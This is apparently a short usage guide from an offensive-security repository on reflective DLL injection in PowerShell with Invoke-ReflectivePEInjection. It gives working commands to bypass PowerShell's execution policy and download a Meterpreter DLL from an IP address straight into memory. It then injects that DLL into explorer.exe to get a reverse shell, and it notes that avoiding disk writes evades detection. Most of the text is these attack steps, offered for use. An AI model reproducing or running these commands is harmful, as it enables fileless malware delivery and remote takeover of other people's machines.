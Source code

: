 # Reflective DLL Injection in PowerShell


## Informations

We'll reuse the PowerShell reflective DLL injection code (Invoke-ReflectivePEInjection) developed by the security researchers Joe Bialek and Matt Graeber.

The script performs reflection to avoid writing assemblies to disk, after which it parses the desired PE file.

It has two separate modes : 

- The first is to reflectively load a DLL or EXE into the same process.
- The second is to load a DLL into a remote process.

We must specify a DLL or EXE as an array of bytes in memory, which allows us to download and execute it without touching the disk.

## Usage

1. Open a PowerShell window with "PowerShell -Exec Bypass" to allow script execution.

2. Once the window is open, we'll run the commands bellow, which will load the DLL into a byte array and retrieve the explorer ID.

```PowerShell
$bytes = (New-Object
System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll')
$procid = (Get-Process -Name explorer).Id

```

3. To use "Invoke-ReflectivePEInjection" we must first import it from its location with Import-Module

```PowerShell

Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1

```

4. Next, we'll supply the byte array (-PEBytes) and process ID (-ProcId) and execute the script.

```PowerShell

Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid

```

This loads the DLL in memory and provides us with a reverse Meterpreter shell into our multi/handler listener.

## Notes

If the script produces an error, this does not affect the functionality of the script and can be ignored.

Note that the public version of this script fails on versions of Windows 10 1803 or newer due to the multiple instances of GetProcAddress in UnsafeNativeMethods.